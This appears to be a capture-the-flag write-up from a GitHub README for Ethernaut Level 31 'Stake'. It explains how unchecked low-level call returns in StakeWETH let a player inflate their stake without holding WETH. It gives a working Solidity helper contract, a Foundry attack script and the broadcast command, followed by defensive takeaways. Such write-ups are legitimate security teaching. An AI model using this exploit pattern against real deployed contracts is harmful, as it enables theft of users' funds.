


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 31 - Stake</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 31 - Stake](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-31-stake)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [StakeETH](#stakeeth)
  - [Unstake](#unstake)
  - [StakeWETH](#stakeweth)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

Back to DeFi with this new Ethernaut challenge. How could we drain the Stake contract?
We have only 3 functions to play with: `StakeETH`, `StakeWETH`, and `Unstake`. The `bytesToUint()` is an internal function that is doing its job, you can ignore it. Let's focus on the main functions.

### StakeETH

```javascript
function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
```

Pretty straightforward, you send some ETH and you become a staker. The contract's balance will increase by the amount you sent.

### Unstake

```javascript
function Unstake(uint256 amount) public returns (bool) {
        require(UserStake[msg.sender] >= amount, "Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        return success;
    }
```

Let's check the Unstake function now, because it is smaller! If the vulnerability is here, we save the trouble, and otherwise, we will have the full picture in mind when going to the last and more complex function.

You can withdraw your staked amount if your `UserStake` amount is greater than the amount you want to withdraw. Fair enough. Then, the contract's balance will decrease by the amount you withdraw. Finally, an external call sends the amount back to the staker. Interestingly, while the CEI is respected, the function simply returns the low-level calls' return value, but doesn't require it to be successful (true). Let's keep that in mind.

### StakeWETH

```javascript
function StakeWETH(uint256 amount) public returns (bool) {
        require(amount > 0.001 ether, "Don't be cheap");
        (, bytes memory allowance) = WETH.call(
            abi.encodeWithSelector(0xdd62ed3e, msg.sender, address(this)) // allowance(address owner, address spender)
        );
        require(
            bytesToUint(allowance) >= amount,
            "How am I moving the funds honey?"
        );
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(
            abi.encodeWithSelector(
                0x23b872dd,
                msg.sender,
                address(this),
                amount
            )
        );
        Stakers[msg.sender] = true;
        return transfered;
    }
```

A function a bit longer here. Like the `StakeETH()` function, there is a minimum amount to respect. Then a low-level call is made to the WETH contract to check the allowance. If the allowance is sufficient, the amount is added to the `totalStaked` and the `UserStake`. Finally, the amount is transferred from the staker to the contract... Or is it?

Like in `StakeETH()` function previously, the return value of the low-level call is not checked. Could we exploit this? What if we approve an amount of WETH but we don't actually have it? The contract will increase the `totalStaked` and the `UserStake` but the transfer will fail. The function will return false, but... who cares? The call will still pass, however, the contract will be stuck with a higher `totalStaked` than its balance!

So it seems that we found a way to let the contract believe our stakes are higher than they actually are. Let's check the requirements again to see how we can fulfill them.

1. The Stake contract's balance has to be greater than 0.
2. The `totalStaked` amount must be greater than the contract's balance.
3. We must be a staker.
4. Our staked balance must be 0.

So we have to stake some ETH to become a staker, then unstake everything so our balance is 0. However, if we unstake everything, the contract's balance will be 0, so we might have to simulate a user to stake some ETH in the contract. Then, we will be able to get our funds back, thanks to the vulnerability in the `StakeWETH` function.

## Solution

Let's implement the complete solution. Here is a simple contract that will stake some ETH in the `Stake` contract. The goal is to simulate a user, so we can fulfill all the requirements.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IStake {
    function StakeETH() external payable;
}

contract BecauseWhyNot {
    IStake private immutable stake;

    constructor(address _stakeContract) payable {
        stake = IStake(_stakeContract);
    }

    function becauseWhyNot() external payable {
        // Become a staker with 0.001 ETH + 2 wei (1 will be left behind)
        stake.StakeETH{value: msg.value}();
    }
}
```

Next, let's write a deployment script that will handle all the transactions in one go for us:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Script, console2} from "forge-std/Script.sol";
import {BecauseWhyNot} from "../src/31_Stake.sol";

interface IStake {
    function totalStaked() external view returns (uint256);
    function WETH() external view returns (address);
    function StakeETH() external payable;
    function StakeWETH(uint256 amount) external returns (bool);
    function Unstake(uint256 amount) external returns (bool);
}

interface IWETH {
    function approve(address spender, uint256 amount) external returns (bool);
}

contract PoC is Script {
    // Replace with your Stake instance
    IStake private immutable stake =
        IStake(0xaF162C29cf1791410b601D4CB73292c78C42320D);
    IWETH private immutable weth = IWETH(stake.WETH());
    uint256 amount = 0.001 ether + 1 wei;

    function run() external {
        uint256 deployer = vm.envUint("PRIVATE_KEY");
        vm.startBroadcast(deployer);

        // 1. Deploy the BecauseWhyNot contract and stake some ETH
        BecauseWhyNot becauseWhyNot = new BecauseWhyNot(address(stake));
        becauseWhyNot.becauseWhyNot{value: amount + 1 wei}();

        // 2. Become a staker
        stake.StakeETH{value: amount}();

        // 3. Approve the stake contract to use WETH
        weth.approve(address(stake), amount);

        // 4. Stake WETH (that we don't have!)
        stake.StakeWETH(amount);
        console2.log("Balance after StakeWETH: ", address(stake).balance);
        console2.log("TotalStaked after StakeWETH: ", stake.totalStaked());

        // 5. Unstake ETH + WETH (leave 1 wei in Stake contract)
        stake.Unstake(amount * 2);
        console2.log("Balance after hack: ", address(stake).balance);
        console2.log("TotalStaked after hack: ", stake.totalStaked());

        require(address(stake).balance > 0, "Stake balance == 0");
        require(
            stake.totalStaked() > address(stake).balance,
            "Balance > Total staked"
        );

        vm.stopBroadcast();
    }
}
```

The command to run the script:

```bash
forge script script/31_Stake.s.sol:PoC --rpc-url sepolia --broadcast --evm-version cancun --priority-gas-price 1
```

> Note: We have to specify the `--evm-version cancun` flag to use the latest version of the EVM for this level, as well as the `--priority-gas-price 1` flag, otherwise foundry complains.

## Takeaway

- Always validate properly the return values of low-level calls in case the call reverted.
- Try to systematically use `SafeERC20` when dealing with ERC20 tokens.

## Reference

- Check external calls return: https://entethalliance.github.io/eta-registry/security-levels-spec.html#req-1-check-return
- SafeERC20: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
